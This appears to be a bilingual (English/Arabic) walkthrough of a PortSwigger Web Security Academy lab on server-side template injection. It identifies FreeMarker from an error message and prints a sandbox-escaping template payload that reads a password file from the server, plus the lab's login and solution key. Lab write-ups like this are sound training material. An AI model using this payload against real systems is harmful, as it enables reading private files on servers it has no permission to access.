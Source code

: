 ## Welcome, my friend. Today we will start the [6. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment) in ```portswigger```
### Let's play this lab:
![image](https://github.com/user-attachments/assets/b7f8e57a-c528-4f78-877d-5a4d35e37347)

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/bef0eea5-9466-411a-b853-4c9abcbbf13e)


### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي. ,ومعانا حساب لنسجل عليه ```content-manager:C0nt3ntM4n4g3r```:
![image](https://github.com/user-attachments/assets/e72d86f0-db48-4cd8-8d4d-d44d1acbf3c4)


### نلاحظ وجود بلوجات لو دخلنا على بلوج منهم هنلاحظ اننا نقدر نغير التمبلت وهنا يأتي دورنا:

![image](https://github.com/user-attachments/assets/e483a796-dfee-4d6a-8c3e-7ddc1cd1df30)
![image](https://github.com/user-attachments/assets/9bbfda09-8332-4ec2-8202-2d54a60f8e69)

### هنلاحظ في الكود قيمة ```${product.stock}``` هنغير تغيير بسيط بحيث يصبح كالاتي ```${product.haha}``` ونضغط preview:
![image](https://github.com/user-attachments/assets/478262a2-1499-4da7-826d-e4093119c616)



### وبعدها هنكتشف نوع التامبلت من خلال رسالة الخطأ وهي ```FreeMarker``` وندخل على hacktricks ونبحث على اكواد خاصة بتلك المكتبة :
![image](https://github.com/user-attachments/assets/866a22d4-8f42-46fe-85bb-a425f3198d65)




## نستخدم تلك الكود:

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![image](https://github.com/user-attachments/assets/53596028-705b-4175-88c9-21d215e220c2)

### الناتج سيكون: "kixe1gd7i0ms3nl8wsxv".
### علشان نحل ذلك التحدي لازم submit this key:



![image](https://github.com/user-attachments/assets/2f672c30-9ab6-4444-8cd1-795e319ca4e7)
![image](https://github.com/user-attachments/assets/0e1d1d0e-a174-4018-8774-939bab2539b9)


## وهنا تم حل اللاب يا صديقي ;)





-----------------

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>
